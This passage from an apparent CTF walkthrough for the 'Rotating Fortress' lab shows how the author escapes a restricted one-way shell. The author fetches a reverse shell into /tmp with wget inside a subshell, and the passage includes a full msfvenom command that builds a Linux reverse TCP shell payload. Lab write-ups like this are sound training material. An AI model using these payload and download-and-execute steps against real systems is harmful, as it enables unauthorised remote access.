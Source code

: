 Let's enter the flags we have so far.

![One-Way Shell](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/5796446b.png)

The **ZEUS' 1-WAY SHELL** has a weakness—it allows the use of subshell. To bypass it, I transferred a reverse shell over to `/tmp/rev` with `wget` running in the subshell. Over at my machine, I hosted a reverse shell (generated with `msfvenom`) with the Python **SimpleHTTPServer** module. Here's what I did.

First, I use the following `msfvenom` options to generate the reverse shell on my machine.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.30.128 LPORT=4444 --platform linux -a x64 -f elf -o rev
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

_The image below shows the execution of `wget` in a subshell._

![wget](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/9f483d07.png)

_The image below shows that `wget` was successful._

![SimpleHTTServer](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/464e989a.png)

_The image below shows the command to make `rev` executable, and the execution of `rev`._

![chmod +x](/assets/images/posts/rotating-fortress-1.0.1-walkthrough/1e11d8ed.png)
